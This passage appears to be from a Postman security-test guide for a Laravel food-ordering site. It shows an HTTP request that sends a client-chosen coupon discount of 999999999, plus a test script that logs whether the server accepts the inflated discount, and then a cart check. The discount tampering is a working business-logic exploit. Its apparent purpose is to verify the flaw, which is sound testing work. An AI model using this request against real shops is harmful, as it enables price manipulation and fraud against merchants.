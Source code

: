 ### **PHASE 2: COUPON EXPLOITATION**

#### **Step 2.1: 🚨 CRITICAL EXPLOIT - Apply Malicious Discount**
```http
POST {{BASE_URL}}/coupon/apply
Content-Type: application/json
X-CSRF-TOKEN: {{CSRF_TOKEN}}
Cookie: laravel_session={{SESSION_COOKIE}}

{
    "coupon_code": "FASTFOOD10",
    "discount": 999999999
}
```

**Test Script:**
```javascript
pm.test("🚨 COUPON VULNERABILITY EXPLOIT", function () {
    const jsonData = pm.response.json();
    
    console.log("=".repeat(50));
    console.log("🚨 TESTING COUPON VULNERABILITY");
    console.log("=".repeat(50));
    
    if (jsonData.success === true) {
        console.log("✅ Server accepted coupon request");
        
        if (jsonData.discount && jsonData.discount >= 999999999) {
            console.log("🚨 CRITICAL VULNERABILITY CONFIRMED!");
            console.log("💰 Malicious discount accepted:", jsonData.discount.toLocaleString('vi-VN'), "đ");
            console.log("🔥 FINANCIAL IMPACT: EXTREME");
            
            // Set environment flag
            pm.environment.set("VULNERABILITY_EXPLOITED", "true");
            pm.environment.set("MALICIOUS_DISCOUNT", jsonData.discount);
            
        } else {
            console.log("⚠️ Server accepted coupon but limited discount amount");
        }
    } else {
        console.log("✅ Server rejected malicious coupon (GOOD)");
        console.log("Response:", jsonData);
    }
});
```

#### **Step 2.2: Verify Exploit Success - Check Cart**
```http
GET {{BASE_URL}}/cart
Cookie: laravel_session={{SESSION_COOKIE}}
```
